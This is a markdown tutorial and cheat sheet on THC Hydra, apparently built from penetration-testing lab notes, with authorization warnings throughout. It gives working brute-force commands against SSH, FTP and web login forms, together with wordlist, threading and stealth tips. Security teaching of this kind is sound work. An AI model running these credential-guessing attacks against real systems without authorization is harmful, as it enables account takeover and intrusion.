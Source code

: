 # Offensive Security Tooling — THC Hydra

**Summary:** Hydra is a fast, modular network login brute‑force tool that supports many protocols (SSH, FTP, HTTP forms, SMB, RDP, SMTP, and more). Use only with explicit permission during authorized assessments.

---

## Table of Contents
1. [Introduction](#introduction)
2. [Supported Protocols](#supported-protocols)
3. [Why strong passwords matter](#why-strong-passwords-matter)
4. [Basic Usage & Syntax](#basic-usage--syntax)
5. [Examples](#examples)
   - [FTP](#ftp)
   - [SSH](#ssh)
   - [HTTP POST (web form)](#http-post-web-form)
6. [Options & Cheat Sheet](#options--cheat-sheet)
7. [Notes & Best Practices](#notes--best-practices)
8. [References](#references)

---

## Introduction
Hydra is a brute force online password cracking program — a fast tool for automating login attempts across many services. It can iterate through username/password lists to discover valid credentials when weak or default credentials are in use.

Hydra is intended for authorized penetration testing and red‑team assessments. Always obtain written permission before testing any system you do not own.

## Supported Protocols
According to the official repository, Hydra supports a wide range of protocols, including (but not limited to):

> Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

For protocol‑specific options, consult Hydra's documentation or the Kali tools page for Hydra.

## Why strong passwords matter
Hydra demonstrates the danger of weak and default credentials. Common devices and services (CCTV, routers, web frameworks) sometimes ship with credentials like `admin:password`. Large wordlists (e.g., millions of entries) contain very common passwords — if you use weak passwords (short, no special characters, dictionary words), they will likely be discovered quickly.

## Basic Usage & Syntax
Hydra's basic invocation pattern requires a target, a service, and credentials (single or list):

```bash
hydra -l <username> -p <password> <target> <service>
```

Key flags used in examples below:

- `-l` : single username
- `-L` : username list (file)
- `-p` : single password
- `-P` : password list (file)
- `-t` : number of parallel threads
- `-V` : verbose (show each attempt)
- `-s` : service port (if non‑standard)
- `-e` : additional checks (`s` = try blank password, `n` = try "no pass", `r` = try reverse login/pass)
- `-f` : exit when a valid pair is found

## Examples

### FTP
Brute forcing FTP with a single username and a password list:
```bash
hydra -l user -P passlist.txt ftp://10.201.102.125
```

### SSH
Example (from your lab notes) — SSH brute force (4 threads):
```bash
hydra -l <username> -P /full/path/to/passlist.txt 10.201.102.125 -t 4 ssh
```

Explanation:
- `-l` specifies the SSH username
- `-P` indicates the path to a password list
- `-t 4` sets four parallel threads
- `ssh` is the service module to use

Concrete example:
```bash
hydra -l root -P passwords.txt 10.201.102.125 -t 4 ssh
```

### HTTP POST (Web Form)
Hydra can brute force form logins when you know the form parameters and the failure response string. Use the `http-post-form` module and provide the path, parameter format, and an indicator of failure.

Template:
```bash
hydra -l <username> -P <wordlist> <target> http-post-form "<path>:<login_fields>:<failure_string>" -V
```

Concrete example (from your notes):
```bash
hydra -l <username> -P <wordlist> 10.201.102.125 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

Notes on the format:
- `/<path>` — the login page path (e.g., `/login.php` or `/` for root)
- `username=^USER^&password=^PASS^` — `^USER^` and `^PASS^` are placeholders Hydra replaces during attempts
- `F=incorrect` — Hydra will treat responses containing `"incorrect"` as a failed login indicator

If unsure whether a form is GET or POST, inspect the browser Developer Tools → Network tab while performing a login to see the exact request and parameters, or use Burp Suite to intercept and inspect the request.

## Options & Cheat Sheet
Quick reference flags and common combinations:

- `-l <user>` : single username  
- `-L <file>` : username list file  
- `-p <pass>` : single password  
- `-P <file>` : password list file  
- `-t <n>` : threads (parallel attempts)  
- `-V` : verbose output (show each attempt)  
- `-s <port>` : specify port if non‑standard (e.g., `-s 2222`)  
- `-e nsr` : extra checks (`n` blank, `s` try original password as username, `r` risky reverse)  
- `-f` : exit on first found credential pair

Example combinations:
```bash
hydra -L users.txt -P rockyou.txt 192.168.1.100 ssh -t 8 -V -f
hydra -l admin -P passwords.txt ftp://10.10.10.20 -t 6
hydra -l bob -P wordlist.txt 10.0.0.5 http-get /admin -V
```

## Notes & Best Practices
- **Authorization:** Always have explicit authorization before testing. Unauthorized brute forcing is illegal and unethical.
- **Wordlists:** Use targeted wordlists first (e.g., default passwords for the device, organization-themed words) before large lists to save time and avoid noisy traffic.
- **Account lockouts:** Be mindful of lockout or rate‑limiting mechanisms; brute forcing can lock accounts or trigger defenses.
- **Stealth & noise:** Hydra is noisy — consider slower thread counts, timing, and combining with proxy/intercept tools (Burp Suite) for web-based flows.
- **Logging:** Capture traffic (where allowed) with tcpdump/Wireshark or Burp for analysis and forensic evidence during engagements.
- **Combine tools:** Use Hydra alongside other reconnaissance tools to discover valid usernames, e.g., enum services, SMB enumeration, or web content discovery.

## References
- THC Hydra repository — https://github.com/vanhauser-thc/thc-hydra
- Kali tools — Hydra page — https://tools.kali.org/password-attacks/hydra
